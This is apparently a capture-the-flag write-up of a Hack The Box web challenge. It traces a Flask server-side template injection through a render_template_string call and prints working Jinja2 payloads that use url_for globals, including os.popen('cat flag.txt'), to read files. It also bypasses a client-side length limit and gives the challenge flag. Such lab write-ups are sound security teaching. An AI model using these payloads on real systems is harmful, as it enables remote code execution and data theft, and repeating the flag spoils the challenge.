





# Trial by fire (Web)

Looking at index.html, I'm very confident the application is vulnerable to SSTI.

```
 <p class="nes-text">
	In a land of burning rivers and searing heat, the Fire Drake stands guard over the Emberstone. Many have sought its power; none have prevailed.
	<br><br>
	Legends speak of ancient template scrolls—arcane writings that twist fate when exploited. Hidden symbols may change everything.
	<br><br>
	Can you read the runes? Perhaps {{ 7 * 7 }} is the key.
</p>
```

Next, look at flamedrake.html. Upon examining the 'code', I got this hint

```
<script type="module">
    import { DragonGame } from '/static/js/game.js';
    import { addVisualEffects } from '/static/js/effects.js';

    const game = new DragonGame();
    game.init();
    addVisualEffects(game);

    // Konami code sequence to reveal the leet (Ancient Capture Device) button
    // const konamiCode = ['ArrowUp', 'ArrowUp', 'ArrowDown', 'ArrowDown', 'ArrowLeft', 'ArrowRight', 'ArrowLeft', 'ArrowRight', 'b', 'a'];
    const konamiCode = ['ArrowUp'];
    let konamiIndex = 0;

    document.addEventListener('keydown', (e) => {
      if (e.key === konamiCode[konamiIndex]) {
        konamiIndex++;
        if (konamiIndex === konamiCode.length) {
          document.querySelector('.leet').classList.remove('hidden');
          konamiIndex = 0;
        }
      } else {
        konamiIndex = 0;
      }
    });
  </script>
```

​​

Googling it brought me to [this](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/), [this](https://medium.com/r3d-buck3t/rce-with-server-side-template-injection-b9c5959ad31e), [this](https://www.yeswehack.com/learn-bug-bounty/server-side-template-injection-exploitation), and this other [post](https://infosecwriteups.com/ssti-bypassing-single-quotes-filter-dc0ee4e4f011) about SSTI.

After examining the code (routes.py, flamedrake.html), it takes your warrior_name input -> stores it as a sessions variable -> loads it in flamedrake.html. However, {{ warrior_name }} in flamedrake.html is NOT vulnerable to SSTI

* my guess is because flamedrake.html uses render_template() instead of render_template_string()
* As explained [in this post](https://semgrep.dev/docs/cheat-sheets/flask-xss) I found and the [flask documentation](https://flask.palletsprojects.com/en/stable/api/#flask.render_template), render_template statically renders html along with any *context parameters* declared.

​​

However, battle_report() uses render_string_template(), making it susceptible according to [portswigger](https://portswigger.net/web-security/server-side-template-injection#detect)

​​

```
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior")
    battle_duration = request.form.get('battle_duration', "0")

    stats = {
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'damage_taken': request.form.get('damage_taken', "0"),
        'spells_cast': request.form.get('spells_cast', "0"),
        'turns_survived': request.form.get('turns_survived', "0"),
        'outcome': request.form.get('outcome', 'defeat')
    }

    REPORT_TEMPLATE = f"""
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Battle Report - The Flame Peaks</title>
        <link rel="icon" type="image/png" href="/static/images/favicon.png" />
        <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <div class="nes-container with-title is-dark battle-report">
            <p class="title">Battle Report</p>

            <div class="warrior-info">
                <i class="nes-icon is-large heart"></i>
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            </div>

            <div class="report-stats">
                <div class="nes-container is-dark with-title stat-group">
                    <p class="title">Battle Statistics</p>
                    <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
                    <p>💔 Damage Taken: <span class="nes-text is-error">{stats['damage_taken']}</span></p>
                    <p>✨ Spells Cast: <span class="nes-text is-warning">{stats['spells_cast']}</span></p>
                    <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
                    <p>⚔️ Battle Duration: <span class="nes-text is-secondary">{float(battle_duration):.1f} seconds</span></p>
                </div>

                <div class="nes-container is-dark battle-outcome {stats['outcome']}">
                    <h2 class="nes-text is-primary">
                        {"🏆 Glorious Victory!" if stats['outcome'] == "victory" else "💀 Valiant Defeat"}
                    </h2>
                    <p class="nes-text">{random.choice(DRAGON_TAUNTS)}</p>
                </div>
            </div>

            <div class="report-actions nes-container is-dark">
                <a href="/flamedrake" class="nes-btn is-primary">⚔️ Challenge Again</a>
                <a href="/" class="nes-btn is-error">🏰 Return to Entrance</a>
            </div>
        </div>
    </body>
    </html>
    """

    return render_template_string(REPORT_TEMPLATE)
```

Now that we have identified the vulnerable component, let's use `{{ url_for.__globals__ }}`​ to identify all global classes/variables we can use to read flag.txt

```
...blahblahblah...
'os': <module 'os' (frozen)>
'open': <built-in function open>
...blahblahblah...
```

We have the os module. [Frozen](https://stackoverflow.com/questions/9916432/what-is-a-frozen-python-module) just means we are able to run OS (bash, cmd) commands using the python module alone.

​​

Now, let's read flag.txt

```
{{url_for.__globals__.__builtins__.open("./flag.txt").read()}}
{{url_for.__globals__.os.popen('cat flag.txt').read()}}
```

Edit the maxlength in the input html field since there's nothing validating that on the server-side.

​​

​​

​​

HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_4e824b1c0385b6e1c699db4043748383}

‍

PS: https://payatu.com/blog/server-side-template-injectionssti/#Exploitation provides more possible payloads
